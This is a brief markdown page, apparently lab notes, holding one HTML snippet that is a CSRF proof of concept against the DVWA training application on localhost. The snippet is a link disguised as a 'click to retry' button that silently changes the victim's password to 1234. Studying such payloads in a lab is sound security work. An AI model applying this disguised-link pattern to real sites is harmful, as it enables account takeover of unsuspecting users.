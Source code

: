 +++
title = "127.0.0.1.html"
icon = "article"
toc = true
+++
``` html
<a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#"><img src="">点击重试</a>
```